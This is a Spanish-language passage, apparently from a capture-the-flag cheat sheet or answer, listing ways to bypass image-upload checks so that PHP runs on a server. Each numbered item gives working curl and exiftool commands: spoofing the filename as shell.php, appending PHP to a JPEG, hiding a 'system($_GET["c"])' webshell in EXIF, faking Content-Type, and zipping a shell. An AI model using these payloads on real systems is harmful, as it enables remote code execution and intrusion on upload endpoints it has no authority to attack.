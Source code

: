 2. **Spoof de nombre/extension (double extension / filename override)**  
    Muchos servidores usan el `filename` del multipart o la extensión original. Forzar nombre `.php` en el campo filename:
    

`# crea una copia válida de jpg cp id.jpg tmp.jpg  # manda como filename shell.php (pero con contenido JPG) curl -i -X POST "https://HOST/upload" \   -F "file=@tmp.jpg;filename=shell.php;type=image/jpeg"`

Si el servidor guarda exactamente `shell.php` y el directorio es accesible con PHP habilitado → `https://HOST/uploads/shell.php` ejecutará tu código.

---

3. **Append PHP after EOF (JPEG polyglot)**  
    JPEG: datos después de `FFD9` suelen ser ignorados por visores, pero si el archivo se guarda **con .php** y el servidor ejecuta PHP por extensión, el payload será ejecutable.
    

`# append php webshell to an existing JPG cp id.jpg shell.jpg printf '<?php echo file_get_contents("/flag"); ?>' >> shell.jpg  # upload but force filename .php curl -i -X POST "https://HOST/upload" \   -F "file=@shell.jpg;filename=shell.php;type=image/jpeg"`

Luego visita `https://HOST/uploads/shell.php`. Si el servidor guarda eso como `.php` → shell ejecutado.

---

4. **Metadata/EXIF injection**  
    Si el servidor sólo valida "es imagen" y luego _extrae_ metadata o reusa EXIF, puedes ocultar PHP en un tag:
    

`# insertar php en comentario EXIF exiftool -Comment='<?php system($_GET["c"]); ?>' id.jpg # subir id.jpg modificado curl -i -X POST "https://HOST/upload" -F "file=@id.jpg"`

A veces aplicaciones que procesan EXIF y luego escriben esos campos en archivos ejecutables/HTML cometen errores y ejecutan contenido.

---

5. **Multipart boundary / content-type tricks**  
    Algunas validaciones checan solo el primer part o el `Content-Type` enviado por el cliente. Envía un body multipart con primera parte “imagen” y segunda parte con tu `.php` real, o fuerza `Content-Type` a `image/jpeg` mientras el contenido real es PHP:
    

`# enviar archivo PHP pero mentir Content-Type printf '<?php echo "HELLO"; ?>' > shell.php curl -i -X POST "https://HOST/upload" \   -F "file=@shell.php;filename=shell.php;type=image/jpeg"`

---

6. **ZIP / archive uploading**  
    Si el uploader acepta `.zip` o automáticamente extrae/convierte contenido, incluye un archivo `shell.php` dentro del zip and upload:
    

`# crear zip con shell.php dentro zip payload.zip shell.php curl -i -X POST "https://HOST/upload" -F "file=@payload.zip"`
